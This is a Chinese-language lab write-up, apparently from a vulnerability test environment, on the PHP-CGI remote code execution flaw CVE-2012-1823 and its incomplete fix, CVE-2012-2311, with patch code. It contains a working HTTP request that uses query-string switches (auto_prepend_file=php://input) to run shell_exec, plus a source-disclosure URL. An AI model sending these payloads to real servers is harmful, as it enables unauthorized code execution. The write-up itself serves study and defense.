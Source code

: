# PHP-CGI远程代码执行漏洞（CVE-2012-1823）

## 原理

 - 参考文章 http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/
 - 影响版本 php < 5.3.12 or php < 5.4.2

## 测试环境

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`可见“Hello”字样。

访问`http://your-ip:8080/index.php?-s`即爆出源码，说明漏洞存在。发送如下数据包，可见Body中的代码已被执行：

```
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

## 漏洞解读

### PHP SAPI 与运行模式

首先，介绍一下PHP的运行模式。

下载PHP源码，可以看到其中有个目录叫sapi。sapi在PHP中的作用，类似于一个消息的“传递者”，比如我在《[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)》一文中介绍的fpm，他的作用就是接受Web容器通过fastcgi协议封装好的数据，并交给PHP解释器执行。

除了fpm，最常见的sapi应该是用于Apache的mod_php，这个sapi用于php和apache之间的数据交换。

php-cgi也是一个sapi。在远古的时候，web应用的运行方式很简单，web容器接收到http数据包后，拿到用户请求的文件（cgi脚本），并fork出一个子进程（解释器）去执行这个文件，然后拿到执行结果，直接返回给用户，同时这个解释器子进程也就结束了。基于bash、perl等语言的web应用多半都是以这种方式来执行，这种执行方式一般就被称为cgi，在安装Apache的时候默认有一个cgi-bin目录，最早就是放置这些cgi脚本用的。

但cgi模式有个致命的缺点，众所周知，进程的创建和调度都是有一定消耗的，而且进程的数量也不是无限的。所以，基于cgi模式运行的网站通常不能同时接受大量请求，否则每个请求生成一个子进程，就有可能把服务器挤爆。于是后来就有了fastcgi，fastcgi进程可以将自己一直运行在后台，并通过fastcgi协议接受数据包，执行后返回结果，但自身并不退出。

php有一个叫php-cgi的sapi，php-cgi有两个功能，一是提供cgi方式的交互，二是提供fastcgi方式的交互。也就说，我们可以像perl一样，让web容器直接fork一个php-cgi进程执行某脚本；也可以在后台运行`php-cgi -b 127.0.0.1:9000`（php-cgi作为fastcgi的管理器），并让web容器用fastcgi协议和9000交互。

那我之前说的fpm又是什么呢？为什么php有两个fastcgi管理器？php确实有两个fastcgi管理器，php-cgi可以以fastcgi模式运行，fpm也是以fastcgi模式运行。但fpm是php在5.3版本以后引入的，是一个更高效的fastcgi管理器，其诸多优点我就不多说了，可以自己去翻翻源码。因为fpm优点更多，所以现在越来越多的web应用使用php-fpm去运行php。

### 历史成因

回到本漏洞。CVE-2012-1823就是php-cgi这个sapi出现的漏洞，我上面介绍了php-cgi提供的两种运行方式：cgi和fastcgi，本漏洞只出现在以cgi模式运行的php中。

这个漏洞简单来说，就是用户请求的querystring被作为了php-cgi的参数，最终导致了一系列结果。

探究一下原理，[RFC3875](http://www.ietf.org/rfc/rfc3875)中规定，当querystring中不包含没有解码的`=`号的情况下，要将querystring作为cgi的参数传入。所以，Apache服务器按要求实现了这个功能。

但PHP并没有注意到RFC的这一个规则，也许是曾经注意并处理了，处理方法就是web上下文中不允许传入参数。但在2004年的时候某个开发者发表过这么一段言论：

```
From: Rasmus Lerdorf <rasmus <at> lerdorf.com>
Subject: [PHP-DEV] php-cgi command line switch memory check
Newsgroups: gmane.comp.php.devel
Date: 2004-02-04 23:26:41 GMT (7 years, 49 weeks, 3 days, 20 hours and 39 minutes ago)
 
In our SAPI cgi we have a check along these lines:
 
    if (getenv("SERVER_SOFTWARE")
        || getenv("SERVER_NAME")
        || getenv("GATEWAY_INTERFACE")
        || getenv("REQUEST_METHOD")) {
        cgi = 1;
    }
 
    if(!cgi) getopt(...)
 
As in, we do not parse command line args for the cgi binary if we are 
running in a web context.  At the same time our regression testing system 
tries to use the cgi binary and it sets these variables in order to 
properly test GET/POST requests.  From the regression testing system we 
use -d extensively to override ini settings to make sure our test 
environment is sane.  Of course these two ideas conflict, so currently our 
regression testing is somewhat broken.  We haven't noticed because we 
don't have many tests that have GET/POST data and we rarely build the cgi 
binary.
 
The point of the question here is if anybody remembers why we decided not 
to parse command line args for the cgi version?  I could easily see it 
being useful to be able to write a cgi script like:
 
  #!/usr/local/bin/php-cgi -d include_path=/path
  <?php
      ...
  ?>
 
and have it work both from the command line and from a web context.
 
As far as I can tell this wouldn't conflict with anything, but somebody at 
some point must have had a reason for disallowing this.
 
-Rasmus
```

显然，这位开发者是为了方便使用类似`#!/usr/local/bin/php-cgi -d include_path=/path`的写法来进行测试，认为不应该限制php-cgi接受命令行参数，而且这个功能不和其他代码有任何冲突。

于是，`if(!cgi) getopt(...)`被删掉了。

但显然，根据RFC中对于command line的说明，命令行参数不光可以通过`#!/usr/local/bin/php-cgi -d include_path=/path`的方式传入php-cgi，更可以通过querystring的方式传入。

这就是本漏洞的历史成因。

### 漏洞利用

那么，可控命令行参数，能做些什么事。

通过阅读源码，我发现cgi模式下有如下一些参数可用：

 - `-c` 指定php.ini文件的位置
 - `-n` 不要加载php.ini文件
 - `-d` 指定配置项
 - `-b` 启动fastcgi进程
 - `-s` 显示文件源码
 - `-T` 执行指定次该文件
 - `-h`和`-?` 显示帮助

最简单的利用方式，当然就是`-s`，可以直接显示源码：

![](1.png)

但阅读过我写的fastcgi那篇文章的同学应该很快就想到了一个更好的利用方法：通过使用`-d`指定`auto_prepend_file`来制造任意文件包含漏洞，执行任意代码：

![](2.png)

注意，空格用`+`或`%20`代替，`=`用url编码代替。

### CVE-2012-2311

这个漏洞被爆出来以后，PHP官方对其进行了修补，发布了新版本5.4.2及5.3.12，但这个修复是不完全的，可以被绕过，进而衍生出CVE-2012-2311漏洞。

PHP的修复方法是对`-`进行了检查：

```c
if(query_string = getenv("QUERY_STRING")) {
	decoded_query_string = strdup(query_string);
	php_url_decode(decoded_query_string, strlen(decoded_query_string));
	if(*decoded_query_string == '-' && strchr(decoded_query_string, '=') == NULL) {
		skip_getopt = 1;
	}
	free(decoded_query_string);
}
```

可见，获取querystring后进行解码，如果第一个字符是`-`则设置skip_getopt，也就是不要获取命令行参数。

这个修复方法不安全的地方在于，如果运维对php-cgi进行了一层封装的情况下：

```
#!/bin/sh

exec /usr/local/bin/php-cgi $*
```

通过使用空白符加`-`的方式，也能传入参数。这时候querystring的第一个字符就是空白符而不是`-`了，绕过了上述检查。

于是，php5.4.3和php5.3.13中继续进行修改:

```c
if((query_string = getenv("QUERY_STRING")) != NULL && strchr(query_string, '=') == NULL) {
	/* we've got query string that has no = - apache CGI will pass it to command line */
	unsigned char *p;
	decoded_query_string = strdup(query_string);
	php_url_decode(decoded_query_string, strlen(decoded_query_string));
	for (p = decoded_query_string; *p &&  *p <= ' '; p++) {
		/* skip all leading spaces */
	}
	if(*p == '-') {
		skip_getopt = 1;
	}
	free(decoded_query_string);
}
```

先跳过所有空白符（小于等于空格的所有字符），再判断第一个字符是否是`-`。